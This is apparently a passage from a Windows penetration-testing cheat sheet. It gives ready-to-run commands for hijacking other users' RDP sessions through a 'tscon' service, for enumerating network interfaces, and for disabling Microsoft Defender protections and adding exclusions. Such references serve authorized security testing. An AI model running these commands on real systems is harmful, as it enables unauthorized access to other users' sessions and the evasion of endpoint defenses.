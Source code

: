 If `Administrator` / `NT AUTHORITY\SYSTEM` privileges could be obtained on a
host, `Remote Desktop Protocol (RDP)` sessions of others users can be hijacked.
This could be leveraged to access the host under the security context of the
hijacked user, through a graphical explorer, with out knowing its password.

Note that:
  - Hijacking of disconnected sessions is possible
  - Hijacking a session will unlock locked sessions (with out the need to
    provide credentials)

Retrieve the `ID` of the eventual `RDP` sessions present on the host:

```
# SESSIONNAME = rdp-*
query user
```

Create and start a service that will execute `tscon` to hijack the specified
`RDP` session:

```
sc create sesshijack binpath= "cmd.exe /k tscon <SESSION_ID> /dest:<SESSION_NAME>"
sc start sesshijack
```

### Network

The following commands can be used to retrieve information about the network
interfaces and active connections of the host:

|  | DOS | Powershell | WMI |
|--|-----|------------|-----|
| Network interfaces | ipconfig | | |
| Listening ports | netstat -ano | Get-NetTCPConnection <br/>Get-NetUDPEndpoint | |
| ARP table | arp -a  |   |   |

### Manage

###### Windows Defender

The following PowerShell command can be used to switch off `Windows Defender`
real-time protection:

```
# Add the specified folder to Windows Defender's exclusion list.
# The exclusion list can be retrieved using: Get-MpPreference | Ft ExclusionPath
Add-MpPreference -ExclusionPath "<PATH>"

# Disables Windows Defender real-time protection.
Set-MpPreference -DisableRealtimeMonitoring $true

# Disables, in addition to real-time protection, various other protections offered by Microsoft Defender (scanning of scripts and downloaded files, automatic sample submission, etc.).
Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend
```
